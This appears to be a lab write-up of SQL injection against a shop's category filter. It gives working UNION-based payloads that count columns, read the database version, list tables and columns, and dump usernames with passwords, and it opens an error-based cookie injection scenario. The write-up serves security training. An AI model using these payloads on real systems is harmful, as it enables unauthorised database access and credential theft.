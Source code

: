 <h2>Finding Number Of Rows Returned With ORDER BY</h2>

Payload: /filter?category=Gifts'+order+by+2--

<mark>False Number Of Rows</mark>

<img width="1911" height="700" alt="find-number-of-rows-returned-false" src="https://github.com/user-attachments/assets/56ecba62-9236-4d4a-8b4b-72785f8bb6d8" />


<mark>True Number Of Rows</mark>

<img width="1912" height="702" alt="find-number-of-rows-returned-true" src="https://github.com/user-attachments/assets/ceaea75e-ca6a-4317-bc61-8bfc4ad9c9d5" />



<h2>Finding Number Of Rows Returned With SELECT NULL</h2>

Payload: /filter?category=Gifts'union+select+null,null--

<mark>False Number Of Rows</mark>

<img width="1910" height="695" alt="find-number-of-rows-returned-order-by-false" src="https://github.com/user-attachments/assets/fbcb2717-9cbb-428f-b932-0a0f4939bdb3" />



<mark>True Number Of Rows</mark>

<img width="1909" height="697" alt="find-number-of-rows-returned-null-true" src="https://github.com/user-attachments/assets/c00d3801-edf5-4d8c-9d2f-2629ac5039b4" />


<h2>Finding The SQL DBMS Version</h2>

Payload: /filter?category=x'union+select+null,version()--

<img width="1908" height="701" alt="find-dbms-version" src="https://github.com/user-attachments/assets/46a66cbb-97b7-4920-8fcc-d220441d48f4" />


<h2>Finding Table_Names</h2>

Payload: /filter?category=x'union+select+null,table_name+from+information_schema.tables--

<img width="1904" height="701" alt="find-table_names" src="https://github.com/user-attachments/assets/a5bce471-602f-4794-b28b-98c8c8d49044" />

<h2>Finding Column_Names</h2>

Payload: /filter?category=x'union+select+null,column_name+from+information_schema.columns+where+table_name='users'--

<img width="1905" height="695" alt="find-column_names" src="https://github.com/user-attachments/assets/f274468e-e89c-4347-8c1d-36e87c2646f6" />


<h2>View Mulitple Columns With String Concatenation</h2>

Payload: /filter?category=x'union+select+null,username||':'||password+from+users--

<img width="1898" height="696" alt="view-authentication-data-union-based" src="https://github.com/user-attachments/assets/5de306ef-3c64-41f1-9988-a30dc05b98d2" />


<h1>Visible-Error Based SQL Injection To Leak Unauthorized Data</h1>

<mark>Scenario</mark>: The Server uses one of the client's cookies as a tracking cookie and makes a backend SQL Query with the tracking cookie. Users can break the syntax of the backend query by injecting into the "TrackingId=" cookie, which causes the server to display an informational error message to the user. The tracking cookie "TrackingId=" is therefore vulnerable to Visible-Error Based SQL Injection. Database = Postgresql

